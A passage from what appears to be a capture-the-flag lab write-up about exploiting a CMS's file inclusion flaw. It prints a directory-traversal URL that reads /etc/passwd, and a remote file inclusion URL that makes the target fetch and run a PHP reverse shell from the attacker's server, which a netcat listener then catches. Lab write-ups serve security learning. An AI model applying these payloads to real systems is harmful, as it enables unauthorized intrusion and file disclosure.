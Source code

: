 A quick look on searchsploit shows that this is vulnerable to **local/remote file inclusion**.  This vulnerability allows attackers to retrieve files on the target machine or insert files from a remote server which they control.

![searchsploit](/assets/posts/20220127/13_searchsploit.png)

#### Exploiting CMS with Local/Remote File Inclusion 

I first tested to see if we can retrieve the `/etc/passwd` file using the following command:

```
http://<ip>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

The `../../../../../../` specifies that we want to traverse back through the directories until we can't go any further.  Then, it will navigate to the `/etc/passwd` file and display it as if it were a normal webpage:

Then, I was able to retrieve the `user.txt` flag in the `/home/miles` directory using a similar injection:

![user.txt](/assets/posts/20220127/14_user_flag)

Unfortunately, we can't do the same for the root flag.  So, we need to get access to the machine and escalate our privileges.  Let's use this remote file inclusion vulnerability to upload a reverse shell.  I am using a PHP reverse shell which you can download from [here](https://github.com/pentestmonkey/php-reverse-shell).

If you are doing the same make sure to change the IP to your IP address and port (optional) so that netcat can catch the callback:

![PHP reverse shell](/assets/posts/20220127/15_reverse_shell_config/.php)

Next, start a `python` HTTP server in the directory where this shell is stored and start a `netcat` listener on your chosen port. Then, use the following injection:

```
http://10.10.185.57/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<ip>/php-reverse-shell.php
```

This will fetch the `php-reverse-shell.php` file from your system as if it were a page on the site.  You should have access to the system on your `netcat` listener:

![netcat callback](/assets/posts/20220127/16_netcat_callback.png)
